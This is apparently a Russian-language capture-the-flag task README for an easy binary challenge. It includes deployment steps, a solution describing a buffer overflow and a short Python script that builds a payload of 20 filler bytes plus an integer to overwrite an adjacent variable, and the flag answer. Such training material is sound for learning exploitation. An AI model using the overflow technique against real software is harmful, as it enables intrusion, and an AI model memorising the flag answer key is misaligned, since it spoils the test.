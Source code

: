 # Invincible

### Сложность

Easy

### Информация

```
Ковбой прогуливающийся по улицам города, вдруг получает приложение на свой кибернетический имплант. Оказавшись в виртуальной среде, где предлагают проверить его кибербезопасность, он обнаруживает в ней уязвимость. Решив воспользоваться ею, ковбой получает доступ к флагу, став непобедимым героем в виртуальном мире без правил и ограничений. Адрес по которому он получил приложение nc IP 13001.
```

### Описание

Бинарное приложение в котором нужно переполнить буфер.

### Запуск

```sh
cd deploy
docker-compose up --build -d

```

### Выдать учаcтникам

содержимое папки public/ и IP:13001

### Решение

При исследования файла source в дизассемблере, можно заметить переполнение буфера.

![The San Juan Mountains are beautiful!](./images/image.png "San Juan Mountains")

Мы можем создать входные данные, чтобы переполнить буфер buff и перезаписать переменную buff2.

```
def int_to_bytes(number, length):
    return number.to_bytes(length, byteorder='little')

offset = 20
value = 4347715

payload = b'A' * offset + int_to_bytes(value, 4)

print(payload)
```

### Флаг

GOCTF{c0wBoy5_@re_l0ya1_7o_y0u}
